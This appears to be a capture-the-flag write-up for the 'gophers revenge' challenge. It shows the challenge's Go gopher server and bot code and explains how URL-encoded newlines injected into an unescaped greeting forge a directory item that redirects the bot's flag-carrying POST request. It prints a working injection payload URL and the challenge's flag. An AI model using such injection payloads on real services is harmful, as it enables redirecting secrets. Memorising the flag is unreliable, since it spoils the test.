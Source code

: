 # gophers revenge

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/76e7fabd-18bb-4ad4-a4d7-3c9d3cf57ae9)

main.go
```go
package main

import (
	"fmt"
	"log"
	"net/url"
	"strings"

	"git.mills.io/prologic/go-gopher"
)

func index(w gopher.ResponseWriter, r *gopher.Request) {
	w.WriteInfo("Welcome to the flag submitter!")
	w.WriteInfo("Please submit all your flags!")
	w.WriteItem(&gopher.Item{
		Type:        gopher.DIRECTORY,
		Selector:    "/submit/user",
		Description: "Submit flags here!",
	})
	w.WriteItem(&gopher.Item{
		Type:        gopher.FILE,
		Selector:    "URL:https://ctf.amateurs.team/",
		Description: "Get me more flags lackeys!!",
	})
	w.WriteItem(&gopher.Item{
		Type:        gopher.DIRECTORY,
		Selector:    "/",
		Description: "Nice gopher proxy",
		Host:        "gopher.floodgap.com",
		Port:        70,
	})
}

func submit(w gopher.ResponseWriter, r *gopher.Request) {
	name := strings.Split(r.Selector, "/")[2]
	undecoded, err := url.QueryUnescape(name)
	if err != nil {
		w.WriteError(err.Error())
	}
	w.WriteInfo(fmt.Sprintf("Hello %s", undecoded))
	w.WriteInfo("Please send a post request containing your flag at the server down below.")
	w.WriteItem(&gopher.Item{
		Type:        gopher.FILE,
		Selector:    "URL:http://amt.rs/gophers-catcher-not-in-scope",
		Description: "Submit here! (gopher doesn't have forms D:)",
		Host:        "error.host",
		Port:        1,
	})
}

func main() {
	mux := gopher.NewServeMux()

	mux.HandleFunc("/", index)
	mux.HandleFunc("/submit/", submit)

	log.Fatal(gopher.ListenAndServe("0.0.0.0:7000", mux))
}
```

bot.go
```go
package main

import (
	"bytes"
	"crypto/rand"
	"fmt"
	"log"
	"net/http"
	"net/url"
	"os"
	"strings"

	"git.mills.io/prologic/go-gopher"
	"golang.org/x/net/publicsuffix"
)

var flag = []byte{}

func randomString(length int) string {
	b := make([]byte, length+2)
	rand.Read(b)
	return fmt.Sprintf("%x", b)[2 : length+2]
}

func main() {
	content, err := os.ReadFile("flag.txt")
	if err != nil {
		log.Fatal(err)
	}
	flag = content

	http.HandleFunc("/submit", Submit)
	http.HandleFunc("/", Index)
	if err := http.ListenAndServe(":8080", nil); err != nil {
		log.Fatal(err)
	}
}

func Index(w http.ResponseWriter, r *http.Request) {
	http.ServeFile(w, r, "index.html")
}

func Submit(w http.ResponseWriter, r *http.Request) {
	r.ParseForm()
	u, err := url.Parse(r.Form.Get("url"))
	if err != nil || u.Host != "amt.rs:31290" {
		w.Write([]byte("Invalid url"))
		return
	}

	w.Write([]byte(Visit(r.Form.Get("url"))))
}

func Visit(gopherURL string) string {
	fmt.Println(gopherURL)
	res, err := gopher.Get(gopherURL)
	if err != nil {
		return fmt.Sprintf("Something went wrong: %s", err.Error())
	}

	rawURL, _ := strings.CutPrefix(res.Dir.Items[2].Selector, "URL:")
	fmt.Println(rawURL)

	u, err := url.Parse(rawURL)

	etldpo, err2 := publicsuffix.EffectiveTLDPlusOne(u.Host)
	if err != nil || err2 != nil || etldpo != "amt.rs" {
		return "Invalid url"
	}

	resp, err := http.Post(u.String(), "application/x-www-form-urlencoded", bytes.NewBuffer([]byte(fmt.Sprintf("username=%s&password=%s", randomString(20), flag))))

	if err != nil {
		return "Failed to make request"
	}

	cookies := resp.Cookies()
	token := ""
	for _, c := range cookies {
		if c.Name == "token" {
			token = c.Value
		}
	}

	if token != "" {
		return fmt.Sprintf("Thanks for sending in a flag! Use the following token once i get the gopher-catcher frontend setup: %s", token)
	} else {
		return "Something went wrong, my sever should have sent a cookie back but it didn't..."
	}
}
```

## solution

the original exploit in bot.go has been patched but there is a new exploit

the exploit is found in main.go:

```go
func submit(w gopher.ResponseWriter, r *gopher.Request) {
	name := strings.Split(r.Selector, "/")[2]
	undecoded, err := url.QueryUnescape(name)
	if err != nil {
		w.WriteError(err.Error())
	}
	w.WriteInfo(fmt.Sprintf("Hello %s", undecoded))
	w.WriteInfo("Please send a post request containing your flag at the server down below.")
	w.WriteItem(&gopher.Item{
		Type:        gopher.FILE,
		Selector:    "URL:http://amt.rs/gophers-catcher-not-in-scope",
		Description: "Submit here! (gopher doesn't have forms D:)",
		Host:        "error.host",
		Port:        1,
	})
}
```

can you see it?

the first writeinfo is key, because it writes a string and so we can input any text there

in bot.go:

```go
	rawURL, _ := strings.CutPrefix(res.Dir.Items[2].Selector, "URL:")
	fmt.Println(rawURL)
```

it takes the 3rd item from the top (a,b,THIS ONE,d,etc) and takes the URL of it

to change the 3rd item, we need to input newlines into the first writeinfo string to shift other items down one

then, we need to fake a gopher item and give it a selector with a URL that redirects to where we want it to go

my payload was `gopher://amt.rs:31290/1/submit/?test=%0a0q%0a0wdwdq%09URL:https%3A%2F%2Fcps%2eamt%2Ers%2fregister.php%0a`<br>
we have to redirect to an amt.rs site because of the following code in bot.go:

```go
	u, err := url.Parse(rawURL)

	etldpo, err2 := publicsuffix.EffectiveTLDPlusOne(u.Host)
	if err != nil || err2 != nil || etldpo != "amt.rs" {
		return "Invalid url"
	}
```

we cannot avoid this...

so we ended up changing the 3rd item to be a url to cps.amt.rs, which accepts a form of username,password which allows us to login and get the password

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/3bd593b3-c459-4620-9fe2-fbd3288af572)

in dev panel:

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/8842054e-6b10-46e5-b947-c8a1bb5ca7a2)

however, the flag is incorrect

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/bb074796-b957-4c4d-9945-c498b15617c4)

this is because the post request uses Sprintf and substitutes in the flag, and if the flag contains special chars, it messes everything up!

it took me waaaay too long (~5hrs) to realize that there was a space here and that the cps chall was not hiding something from me

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/34223b9d-90c9-455f-bd2d-28521ec0a0c6)


i ended up just solving the cps chall even though it was worth 0 points because i wanted to solve gopher, but it didnt give me the flag

i eventually realized that "+" looked like a "t", and also put a space char instead of a regular one because it is special char

the flag is `amateursCTF{ye5._+h1s_1s_g0pher_h3ll}`
